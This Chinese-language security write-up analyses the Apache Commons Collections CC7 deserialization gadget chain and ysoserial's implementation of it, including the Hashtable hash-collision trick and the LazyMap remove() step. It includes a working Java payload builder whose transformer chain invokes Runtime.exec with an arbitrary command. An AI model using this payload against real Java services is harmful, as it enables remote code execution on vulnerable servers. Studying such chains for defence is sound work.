# CommonsCollections7

## 0x01 Hashtable

CC7 是 CC6 的延伸，使用了另一个 kick-off `java.util.Hashtable` 去调用 `LazyMap`。Hashtable 也是 JDK 内置的集合，与 HashMap 的操作几乎一致，主要的区别在于 HashTable 为了实现多线程安全，在几乎所有的方法上都加上了 synchronized 锁，而加锁的结果就是 `HashTable` 操作的效率十分低下，因此是一个淘汰方法。

首先看 `readObject()` 方法，将 key 、value 序列化之后将调用 `reconstitutionPut()`  



进入 `reconstitutionPut()` 后会对 key 调用 hashCode() 方法，之后会调用 `hashCode()` 方法，那么就和 HashMap 的利用流程类似了



写出来的结果如下

```java
public Hashtable getObject(final String command) throws Exception {

    // Reusing transformer chain and LazyMap gadgets from previous payloads
    final String[] execArgs = new String[]{command};

    final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

    final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    execArgs),
            new ConstantTransformer(1)};

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

    Hashtable hashtable = new Hashtable();
    hashtable.put(entry, "Whoopsunix");

    lazyMap.clear();

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

    return hashtable;
}
```

## 0x02 ysoserial 怎么做的

再来看看 ysoserial 的实现方式，先跟进一下调用链。从 `readObject()` 进入 `Hashtable#reconstitutionPut()` 后，这时候 `tab` 为 null ，并不会进入循环。



所以 CC7 往 `Hashtable` 添加了 两个元素，二次进入  `Hashtable#reconstitutionPut()` 时由于 `tab` 数组中已存在第一次插入的元素，那么第二次在 `tab` 取到同为 `index` 下标的元素时将调用 `e.key.equals(key)`，这点我们也可以看到与 lazyMap 中的 `ChainedTransformer` 不相关。





最终通过 `AbstractMap#equals()` 来调用 `LazyMap.get()` 



到目前为止的思路，只要将 `LazyMap` 放到 `Hashtable` 中就行了，但实际上这条链子比想象的要复杂，我们看 ysoserial 的操作，其中一些细节的处理还需要继续分析。



## 0x03 LazyMap 为什么 put yy 和 zZ ？

前面我们提到会二次进入 `Hashtable#reconstitutionPut()` ，因为第二次 `tab[index]` 元素存在所以能调用 `equals()` ，index 值通过计算字符的hash得到，那么为什么不能 put 两个相同的值？



因为在进入 `Hashtable#readObject()` 时，会计算元素的个数，两个元素相同 elements 为1 就无法二次进入了。



所以这个问题的原因也就显而易见是一个 [hash碰撞问题](https://www.jianshu.com/p/9ad7fdb46efb) ，俩字符串 hashCode() 相同。类似的字符还有很多，比如 `Aa BB`、`3Qj 42j`、`三个 上下`



## 0x04 lazyMap2.remove("yy") 的原因？

把 `remove()` 注释掉后再调试，发现在 `AbstractMap#equals()` 中 `m.size() != size()` 返回 false ，所以无法继续下面的调用。



而我们对 `equals()` 打断点后会发现在执行  `hashtable.put(lazyMap2, 2)` 时会再进入一次。



因为执行 `put()` 方法时也是类似的原理， `hashtable.put(lazyMap2, 2)` 时，即二次进入时会从 `tab[index]` 中取先前放进去的 `hashCode` 相同的 `yy`，并以此执行一次 `equals()` ，



在进入 `LazyMap.get()` 时，因为我们是构造好后再通过反射修改 `iTransformers` ，所以这时 value 会直接返回我们传入的 key 值 `yy`。



所以最终 map 中会多一个 `yy yy` 的值，需要 remove()



## 0x05 Gadget Chain

```
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()


Hashtable.readObject()
   AbstractMap.equals()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```
